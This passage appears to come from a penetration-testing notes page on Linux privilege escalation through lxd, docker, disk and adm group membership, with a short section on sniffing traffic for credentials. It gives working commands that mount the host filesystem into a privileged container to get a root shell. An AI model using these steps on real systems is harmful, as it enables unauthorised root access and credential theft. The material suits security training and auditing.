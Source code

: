 Start a privileged container with the `security.privileged` set to `true `:
```console
zero@pio$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system:
```console
zero@pio$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

And start:
```console
zero@pio$ lxc start r00t 
zero@pio:~/64-bit Alpine$ lxc exec r00t /bin/sh 

# id 
uid=0(root) gid=0(root)
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. For example `docker run -v /root:/mnt -it ubuntu`.

## Disk 

Users within the disk group have full access to any devices contained within `/dev`{: .filepath}, such as `/dev/sda1`{: .filepath}, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.

## ADM 

Members of the adm group are able to read all logs stored in /var/log. Check it with:
```console
zero@pio$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

---

# Miscellaneous Techniques 

## Passive Traffic Capture 

If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Some tools like [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) can be used to examine data being passed on the wire.
